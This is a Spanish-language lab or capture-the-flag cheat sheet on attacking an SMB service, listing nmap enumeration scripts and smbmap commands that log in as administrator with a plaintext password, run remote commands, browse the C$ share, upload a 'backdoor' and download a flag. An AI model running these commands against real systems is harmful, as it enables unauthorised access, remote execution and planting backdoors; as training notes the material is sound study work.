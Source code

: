 # Ciber

# SMB

 Primero hacemos un nmap
		`nmap 192.168.18.47`
1. Hacemos nmap más detallado
		`nmap -p445 --script smb* 192.168.18.47`
 2. Utilizamos smbmap:
		 `smbmap -u guest -p "" -d . -H 192.168.18.47`
 3. Ahora como administrador:
 		`smbmap -u administrator -p Temporal.23! -d . -H 192.168.18.47`
 4. Ejecutamos comandos:
			`smbmap -u administrator -p Temporal.23! -H 192.168.18.47 -x whoami` 
			`smbmap -u administrator -p Temporal.23! -H 192.168.18.47 -x "ping 192.168.18.30"`
			`tcpdump -niv enp0s5 icmp`
 5. Listar discos:
			`smbmap -H 192.168.18.47 -u administrator -p Temporal.23! -L`
 6. Listar contenidos de un disco:
			`smbmap -H 192.168.18.47 -u administrator -p Temporal.23! -r C$`
 7. Subir un backdoor:
			`smbmap -H 192.168.18.47 -u administrator -p Temporal.23! --upload "./backdoor" "C$\backdoor"`
8. Nos bajamos la flag:
            `smbmap -H 192.168.18.47 -u administrator -p Temporal.23! --download "C$\flag.txt"`
           
# SMB con Nmap

1. `nmap 192.168.18.47`
2. `nmap -p445 --script smb-protocols 192.168.18.47`
3. `​nmap -p445 --script smb-security-mode 192.168.18.47`
4. `​nmap -p445 --script smb-enum-sessions 192.168.18.47`
5. `nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=Temporal.23!  192.168.18.47`
6. `nmap -p445 --script smb-enum-shares 192.168.18.47`
7. `nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=Temporal.23!  192.168.18.47`
8. `nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=Temporal.23!  192.168.18.47`
9. `nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=Temporal.23!  192.168.18.47`
10. `nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=Temporal.23!  192.168.18.47`
